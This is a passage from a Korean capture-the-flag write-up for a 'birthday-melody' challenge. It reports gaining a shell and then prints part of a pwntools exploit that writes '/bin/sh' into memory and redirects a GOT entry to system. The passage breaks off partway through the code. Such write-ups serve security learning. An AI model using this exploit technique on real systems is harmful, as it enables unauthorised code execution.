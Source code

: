이를 토대로 익스플로잇 코드를 작성했고, 실행한 결과 성공적으로 명령어 실행이 가능했으며, 쉘 획득이 가능했습니다.

<figure style="text-align: center">
    <img src="/assets/images/birthday-melody-write-up/get-shell.png"/>
    <figcaption>
        명령어 실행을 통한 쉘 획득
    </figcaption>
</figure>

아래는 최종 익스플로잇 코드입니다.
```
from pwn import *
from json import dumps

offset = 140.5 # free got address offset
body = dumps({
    "length": 0,
    "hertz": 0xfffffffffffffffffffffffffffffffffffff,
    "data":[
        {
            "start": 0,
            "end": 1,
            "frequency": 0,
            "amplitude": -0x2a805ffffe,
            "offset": 0x622f # /b
        },
        {
            "start": 1,
            "end": 2,
            "frequency": 0,
            "amplitude": 0x2f36bfffff,
            "offset": 0x6e69 # in
        },
        {
            "start": 2,
            "end": 3,
            "frequency": 0,
            "amplitude": -0x13893fffff,
            "offset": 0x732f # /s
        },
        {
            "start": 3,
            "end": 4,
            "frequency": 0,
            "amplitude": 0x179f3fffff,
            "offset": 0x68 # h\x00
        },
        { # for pointing the GOT entry to system function
            "start": (-1888 + (8 * offset)),
            "end": (-1888 + (8 * offset) + 1),
            "frequency": 0,
            "amplitude": 0x1f34ffffff,
            "offset": 0x6ee0 
        },
        { # for pointing the GOT entry to system function
            "start": (-1888 + (8 * offset)) + 1,
            "end": (-1888 + (8 * offset) + 2),
            "frequency": 0,
```